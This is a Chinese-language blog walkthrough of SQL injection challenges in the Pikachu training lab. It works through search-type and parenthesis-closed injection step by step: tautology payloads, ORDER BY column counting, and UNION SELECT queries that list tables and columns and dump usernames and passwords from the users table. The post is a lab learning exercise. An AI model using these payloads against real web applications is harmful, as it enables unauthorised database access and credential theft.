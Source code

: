 ```yaml
---
title: Pikachu--SQL注入（二）
tags:
  - pikachu
categories:
  - 学习
  - web安全
  - Pikachu
abbrlink: 8764d02d
date: 2022-05-07 10:35:14
---
```








### 搜索型注入

由题可知是搜索型注入(get)，可直接在url中的name参数后进行修改，本质还是字符型注入，只是闭合不一样。

输入：

```
?name=%27&submit=查询     %27  == '  get			报错
```

根据报错信息判断闭合是**%'**

![23](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103250.png)



之后过程和字符型一样



```
name=' or 1=1-- q			可查询出所有账户数据
```

![24](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103251.png)



判断字段数

```
' order by 3 -- q
```

![25](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103254.png)



```
' order by 4 -- q				报错，字段数为3
```

![26](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103257.png)





```
' union select 1,2,3 -- q			判断回显点位置
```



![27](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103300.png)

​	



```
'union select user(),database(),3 -- q		
可知用户名为root@localhost，数据库名为pikachu
```

![29](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103302.png)



```
' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='pikachu' --  q
查询数据库pikachu下的所有表名httpinfo,member,message,users,xssblind
```

![30](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103305.png)



```
' union select 1, group_concat(column_name),3 from information_schema.columns where table_name='users' -- q
查询user下所有表明 user_id,first_name,last_name,user,password,avatar,last_login,failed_login,id,username,password,level,id,username,password
```



![31](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103307.png)

```
' union select 1,group_concat(username),group_concat(password) from users -- q
查询字段username和password的内容
```

![28](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103309.png)





### xx型注入

本质还是字符型注入，只是闭合不一样。

```
?name=%27&submit=查询     %27  == '  get	 	根据报错信息判断闭合是	')
```

![32](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103310.png)





之后过程和字符型一样



```
') or 1=1-- q			可查询出所有账户数据
```



![33](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103312.png)

判断字段数

```
') order by 2 -- q
```

![34](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103314.png)



```
') order by 3 -- q				报错，字段数为2
```

![35](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103316.png)





```
') union select 1,2 -- q			判断回显点位置
```



![36](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103317.png)

​	

```
')union select user(),database() -- q		
可知用户名为root@localhost，数据库名为pikachu
```

![37](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103319.png)



```
') union select 1,group_concat(table_name) from information_schema.tables where table_schema='pikachu' --  q
查询数据库pikachu下的所有表名httpinfo,member,message,users,xssblind
```

![38](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103320.png)

```
') union select 1, group_concat(column_name) from information_schema.columns where table_name='users' -- q
查询user下所有表明 user_id,first_name,last_name,user,password,avatar,last_login,failed_login,id,username,password,level,id,username,password
```

![39](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103323.png)



```
') union select group_concat(username),group_concat(password) from users -- q
查询字段username和password的内容
```

![40](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/Pikachu_SQL/20220507103325.png)







---

参考链接： 

无垠安全：https://www.wuyini.cn/952.html

Pikachu靶场通关之SQL注入 - FreeBuf网络安全行业门户：https://www.freebuf.com/articles/web/254079.html
